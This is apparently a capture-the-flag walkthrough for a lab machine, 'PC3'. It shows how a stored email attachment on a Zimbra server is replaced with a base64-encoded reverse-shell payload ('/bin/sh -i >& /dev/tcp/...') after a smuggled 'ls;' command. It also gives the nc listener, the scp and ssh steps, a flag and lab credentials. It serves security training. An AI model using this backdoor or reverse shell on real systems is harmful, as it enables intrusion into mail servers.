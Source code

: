 # PC3

1. **Resume From [Mail Server](/2_mail_server/)**
2. **Check Emails: [258-3.msg](/2_mail_server/08-store0/3/msg/0/258-3.msg)**

    ```text
    **سلام
    نرم افزار درخواست شده را پیوست کردم.**
    ```

    ```shell
    #!/bin/bash

    username=""
    password="" 

    server_ip=$(ip r | grep default | cut -f 3 -d ' ')
    server_ip=""
    case "$1" in
    logout)
     curl --insecure -X GET https://$server_ip:4081/internal/logout
     ;;
    *)

     if [ -z $username ]; then
      read -p "Enter the Username:" username
     fi

     # if password is empty get it!
     if [ -z $password ]; then
      read -sp "Password:" password
     fi

     curl --insecure -X POST https://$server_ip:4081/internal/dologin.php?NTLM=0 --data-urlencode "kerio_username=$username" --data-urlencode "kerio_password=$password"

     res=$(curl -I https://www.google.com -m 5 2>/dev/null | head -n 1 | cut -f 2 -d " ")
     if [[ $res == "200" ]]; then
      printf "\033[1m\033[92mYou Are Connected Now!\033[0m"
     else
      printf "\033[1m\033[91mNot Connected!\033[0m"
     fi
     printf "\n\n"
    esac
    ```

3. **Create a Reverse Shell Payload**

    ```shell
    ls;/bin/sh -i >& /dev/tcp/10.8.0.29/9999 0>&1;
    ```

4. **Encode Base64 and Replace as `kerio_connect` attachment: [kerio_connect](./04-258-3-backdoor.msg)**
5. **Listen On local System: `nc -l 0.0.0.0 9999`**
6. **Copy Backdoored Email into Server**

    ```shell
    scp -i ~/.ssh/id_rsa -P 2200 ./04-258-3-backdoor.msg  zimbra@172.16.3.67:/opt/zimbra/store/0/3/msg/0
    ```

7. **Login and Replace Email, Restart Zimbra**

    ```shell
    ssh -i ~/.ssh/id_rsa -p 2200 zimbra@172.16.3.67

    # inside ssh
    cd /opt/zimbra/store/0/3/msg/0/
    mv 258-3.msg 258-3.bak.msg
    mv 04-258-3-backdoor.msg 258-3.msg

    # restarting Zimbra
    zmcontrol restart
    ```

8. **Read Flag: `MAZAPA_e8be86e920cb98bc93e7d3803912e72a`**
9. **Read `/read.py` and Get Username/Password**

    ```text
    username = "savad-koohi@petromaz.ir"
    password = "EmdQXL82YejA"
    server = "mail"
    ```
